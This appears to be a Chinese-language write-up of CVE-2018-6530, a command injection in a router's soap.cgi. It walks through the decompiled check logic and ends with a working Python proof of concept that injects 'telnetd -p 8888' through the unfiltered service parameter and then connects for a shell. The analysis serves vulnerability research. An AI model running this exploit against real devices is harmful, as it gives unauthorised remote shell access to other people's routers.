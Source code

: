   
**CVE-2018-6530**  
  
  
漏洞信息：CVE-2018-6530（  
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6530  
）  
  
   
  
这个漏洞是在soap.cgi中的，还是看到cgibin中的soapcgi_main函数：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4YWhUZpjVUI66jE784saXXicus4ltw6NdPSlcYebibI4byq0KibyMzFalw/640?wx_fmt=png "")  
  
   
  
首先需要绕过一些检查，比如CONTENT_TYPE得是text/xml，REQUEST_METHOD得是POST，HTTP_SOAPACTION中得有#等，可以看到这里对service后的内容已经进行了一些过滤，但是 貌似忘记过滤了&符号 。  
  
   
  
接着往下看：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H48jn0fDflq88KicR16E4sQKra20Kp17D12WAJuaIrgD8XoyxZP3gA1qA/640?wx_fmt=png "")  
  
   
  
这里的cgibin_parse_request已经很熟悉了，就是对POST内容的解析，在这里用处不大，就注意设置一下相关环境变量即可。  
  
   
  
再下面就来到漏洞点了：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H44U2mdmL4q5ictBjG9VGWEdEUAPfYU11OW3xMjhicsZPeWkjkdqFIgGhA/640?wx_fmt=png "")  
  
   
  
这个fopen的第二个参数是a+，文件不存在就会创建，所以这个if很好判断过，下面的sprintf + system很显然存在一个任意命令执行的RCE漏洞。  
  
   
  
之前说过，&忘记过滤了，因此我们可以用&&连接恶意命令并注入到service中，由于之前的sh /var/run/是个合法路径，因此算执行成功，可以走到&&之后的恶意命令。  
  
   
  
在上一个CVE中已经分析过了，soap.cgi也是通过49152端口发送报文给UPNP的 。  
  
   
  
**POC：**  
```
from socket import *
from os import *
from time import *
 
request = b"POST /soap.cgi?service=&&telnetd -p 8888&& HTTP/1.1\r\n"
request += b"Host: localhost:49152\r\n"
request += b"Content-Type: text/xml\r\n"
request += b"Content-Length: 88\r\n"
request += b"SOAPAction: a#b\r\n\r\n"
 
s = socket(AF_INET, SOCK_STREAM)
s.connect((gethostbyname("192.168.0.1"), 49152))
s.send(request)
 
sleep(1)
system('telnet 192.168.0.1 8888')
```  
  
